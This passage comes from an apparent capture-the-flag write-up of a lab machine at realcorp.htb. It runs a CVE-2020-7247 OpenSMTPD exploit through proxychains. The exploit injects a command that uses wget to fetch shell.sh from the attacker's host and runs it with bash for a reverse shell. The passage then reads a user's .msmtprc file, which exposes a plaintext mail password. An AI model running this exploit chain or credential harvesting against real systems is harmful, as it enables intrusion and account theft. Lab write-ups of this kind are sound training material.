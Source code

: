 - Now, let's send a reverse shell payload
  - While troubleshooting manually there are bad chars that `opensmtp` doesn't like, so I had to play around with different payloads
```
└─$ sudo proxychains -f proxy-to-squid.conf python3 cve-2020-7247.py 10.241.251.113 25 "wget 10.10.16.9/shell.sh -O /tmp/shell.sh; bash /tmp/shell.sh"
[proxychains] config file found: proxy-to-squid.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.241.251.113:25  ...  OK
[*] OpenSMTPD detected
[*] Connected, sending payload
[*] Payload sent
[*] Done
```

![](./images/4.png)

## User #1
- During enumeration, I found a `.msmtprc` file in `j.nakazawa`'s home directory
  - We have potential creds for `j.nakazawa:sJB}RM>6Z~64_`
```
root@smtp:/home/j.nakazawa# ls -lha
ls -lha
total 16K
drwxr-xr-x. 1 j.nakazawa j.nakazawa   59 Dec  9  2020 .
drwxr-xr-x. 1 root       root         24 Dec  8  2020 ..
lrwxrwxrwx. 1 root       root          9 Nov 15  2021 .bash_history -> /dev/null
-rw-r--r--. 1 j.nakazawa j.nakazawa  220 Apr 18  2019 .bash_logout
-rw-r--r--. 1 j.nakazawa j.nakazawa 3.5K Apr 18  2019 .bashrc
-rw-------. 1 j.nakazawa j.nakazawa  476 Dec  8  2020 .msmtprc
-rw-r--r--. 1 j.nakazawa j.nakazawa  807 Apr 18  2019 .profile
lrwxrwxrwx. 1 root       root          9 Nov 15  2021 .viminfo -> /dev/null
root@smtp:/home/j.nakazawa# cat .msmtprc
cat .msmtprc
# Set default values for all following accounts.
defaults
auth           on
tls            on
tls_trust_file /etc/ssl/certs/ca-certificates.crt
logfile        /dev/null

# RealCorp Mail
account        realcorp
host           127.0.0.1
port           587
from           j.nakazawa@realcorp.htb
user           j.nakazawa
password       sJB}RM>6Z~64_
tls_fingerprint C9:6A:B9:F6:0A:D4:9C:2B:B9:F6:44:1F:30:B8:5E:5A:D8:0D:A5:60

```